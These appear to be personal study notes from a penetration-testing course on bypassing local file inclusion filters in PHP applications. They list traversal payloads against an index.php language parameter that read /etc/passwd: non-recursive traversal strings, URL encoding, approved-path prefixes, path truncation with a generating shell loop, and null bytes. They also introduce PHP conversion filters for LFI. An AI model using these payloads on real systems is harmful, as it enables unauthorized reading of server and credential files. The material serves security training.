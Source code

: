 # Basic Bypasses
## Non-Recursive Path Traversal Filters
```
....//
..././
....\/
```

## Encoding
```
<SERVER_IP>:<PORT>/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64
```

Furthermore, we may also use Burp Decoder to encode the encoded string once again to have a `double encoded` string, which may also bypass other types of filters.

## Approved Paths
```
<SERVER_IP>:<PORT>/index.php?language=./languages/../../../../etc/passwd
```

## Appended Extension

#### Path Truncation
```url
?language=non_existing_directory/../../../etc/passwd/./././././ REPEATED ~2048 times]
```

```shell-session
alakin2504@htb[/htb]$ echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
non_existing_directory/../../../etc/passwd/./././<SNIP>././././
```

#### Null Bytes
To exploit this vulnerability, we can end our payload with a null byte (e.g. `/etc/passwd%00`), such that the final path passed to `include()` would be (`/etc/passwd%00.php`).

# PHP Filters
## Input Filters
There are four different types of filters available for use, which are [String Filters](https://www.php.net/manual/en/filters.string.php), [Conversion Filters](https://www.php.net/manual/en/filters.convert.php), [Compression Filters](https://www.php.net/manual/en/filters.compression.php), and [Encryption Filters](https://www.php.net/manual/en/filters.encryption.php). You can read more about each filter on their respective link, but the filter that is useful for LFI attacks is the `convert.base64-encode` filter, under `Conversion Filters`.
